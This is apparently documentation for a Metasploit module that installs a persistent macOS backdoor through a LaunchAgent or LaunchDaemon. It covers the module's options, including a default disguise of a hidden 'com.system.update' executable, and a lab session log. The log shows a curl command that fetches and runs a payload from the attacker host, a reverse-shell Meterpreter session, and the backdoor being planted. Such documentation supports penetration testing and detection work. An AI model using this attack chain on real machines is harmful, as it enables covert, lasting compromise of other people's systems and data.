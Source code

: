 ## Vulnerable Application

This module provides a persistent boot payload by creating a launch item, which can be
a LaunchAgent or a LaunchDaemon. LaunchAgents run with user level permissions and are triggered
upon login by a plist entry in `~/Library/LaunchAgents`. LaunchDaemons run with
elevated privilleges, and are launched before user login by a plist entry in the `~/Library/LaunchDaemons` directory.
In either case the plist entry specifies an executable that will be run before or at login.

Verified on OSX 11.7.10 (Big Sur)

## Verification Steps

1. Start msfconsole
1. Get a shell
1. Do: `use exploit/osx/persistence/launch_plist`
1. Do: `run`
1. You should get a shell.

## Options

### BACKDOOR_PATH

Path to hide the backdoor on the target. Defaults to `~/Library/.<random>/com.system.update`

### KEEPALIVE

Continually restart the payload exe if it crashes/exits. Defaults to `true`

### RUN_NOW

Run the installed payload immediately. Defaults to `false`

### LAUNCH_ITEM

Type of launch item, see description for more info. Choices are `LaunchAgent`, `LaunchDaemon`. Default is `LaunchAgent`

## Scenarios

### 11.7.10 (Big Sur)

Initial access vector via web delivery

```
resource (/home/h00die/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/home/h00die/.msf4/msfconsole.rc)> setg lhost 192.168.2.128
lhost => 192.168.2.128
resource (/home/h00die/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/home/h00die/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/home/h00die/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/home/h00die/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/home/h00die/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set target 8
target => 8
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > set payload payload/osx/x64/meterpreter/reverse_tcp
payload => osx/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 192.168.2.128:4545 
[*] Using URL: http://192.168.2.128:8181/l
[*] Server started.
[*] Run the following command on the target machine:
curl -sk --output DZUIk3jn http://192.168.2.128:8181/l; chmod +x DZUIk3jn; ./DZUIk3jn& disown
[*] 192.168.2.51     web_delivery - Delivering Payload (17204 bytes)
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (815032 bytes) to 192.168.2.51
[*] Meterpreter session 2 opened (192.168.2.128:4545 -> 192.168.2.51:61809) at 2025-02-16 12:35:40 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/Users/h00die) > getuid
Server username: h00die
(Meterpreter 2)(/Users/h00die) > sysinfo
Computer     : h00dies-MacBook-Pro.local
OS           : macOS Big Sur (macOS 11.7.10)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
(Meterpreter 2)(/Users/h00die) > background
[*] Backgrounding session 2...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/osx/persistence/launch_plist 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set session 2
session => 2
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > exploit
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > 
[*] Started reverse TCP handler on 192.168.2.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /Users/h00die/Library is writable
[-] Exploit aborted due to failure: unknown: Duplicate LaunchAgent plist already exists at /Users/h00die/Library/LaunchAgents/com.system.update.plist

[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > 
[*] Started reverse TCP handler on 192.168.2.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /Users/h00die/Library is writable
[*] Dropping backdoor executable...
[+] Backdoor stored to /Users/h00die/Library/.OMZztqEV/com.system.update
[+] LaunchAgent added: /Users/h00die/Library/LaunchAgents/com.system.update.plist
[+] LaunchAgent installed successfully.
[*] To remove the persistence, run:
rm -rf /Users/h00die/Library/.OMZztqEV ; rm /Users/h00die/Library/LaunchAgents/com.system.update.plist ; launchctl remove com.system.update ; launchctl stop com.system.update

[*] Meterpreter-compatible Cleaup RC file: /home/h00die/.msf4/logs/persistence/h00dies-MacBook-Pro.local_20250216.3727/h00dies-MacBook-Pro.local_20250216.3727.rc
```
